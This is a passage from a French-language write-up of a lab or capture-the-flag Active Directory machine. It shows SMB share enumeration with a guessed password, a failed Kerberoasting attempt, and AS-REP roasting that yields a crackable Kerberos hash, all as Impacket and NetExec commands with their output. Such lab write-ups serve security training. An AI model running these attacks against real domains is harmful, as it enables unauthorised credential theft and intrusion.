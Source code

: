 Cette fois pas besoin de chercher très loin : le mot de passe de `charlie` est `charlie` :

```console
$ ./nxc smb -u charlie -p charlie --shares 192.168.56.126
SMB         192.168.56.126  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         192.168.56.126  445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         192.168.56.126  445    DC01             [*] Enumerated shares
SMB         192.168.56.126  445    DC01             Share           Permissions     Remark
SMB         192.168.56.126  445    DC01             -----           -----------     ------
SMB         192.168.56.126  445    DC01             ADMIN$                          Remote Admin
SMB         192.168.56.126  445    DC01             C$                              Default share
SMB         192.168.56.126  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.126  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.56.126  445    DC01             SYSVOL          READ            Logon server share
```

Le compte ne permet pas d'obtenir un shell que ce soit avec psexec, wmiexec ou winrm. So what ? Kerberoast ?

```console
$ python GetUserSPNs.py -dc-ip 192.168.56.126 -outputfile /tmp/hashes.txt soupedecode.local/charlie:charlie
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```

### You win the internet!

Pas mieux... [AS-REP](https://book.hacktricks.wiki/fr/windows-hardening/active-directory-methodology/asreproast.html) du coup ?

```console
$ python3 GetNPUsers.py -dc-ip 192.168.56.126 -usersfile /tmp/uniq_users.txt -no-pass -request soupedecode.local/  | tee output.txt
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[-] User aaaron589 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aadam701 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abianca784 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User acarl237 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User acarl386 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User adelia337 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
--- snip ---
[-] User zwyatt377 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:3b6a625efc3caa47dc23550f01ed5b6e$5127477bc7a290e7ea24f2d4fd2bd01fc4ce01c8a88022ab0e6046cbc0899e4e568c5e91162b754c4b1b675d13acc0418b0a9c2d4ce59752424a8220af2551c74e4a70acb2256e2f585f87dd8ca3a57d3966c8c25a851f817ca238b72addde78ec70737e6e269cb8a00ff806b08eb16dc2896667f121c80e53cf084df9c6fbcab386a7fbc836fa0767c1b23f6f5dd474a297412537c269d91ca3a9dd52ad84411ccf9926f74a5d6712c11931fcd7f89d5c2a6192471aace091d45dc69a34068cb9af2a4091e010731414ef16ae3b58cdd057e9862ed0d48b45d116bd30d639543c818028b76d99d50b903ff44ca1e7e675bdf549bb6b
[-] User zyara746 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zzach427 doesn't have UF_DONT_REQUIRE_PREAUTH set
```
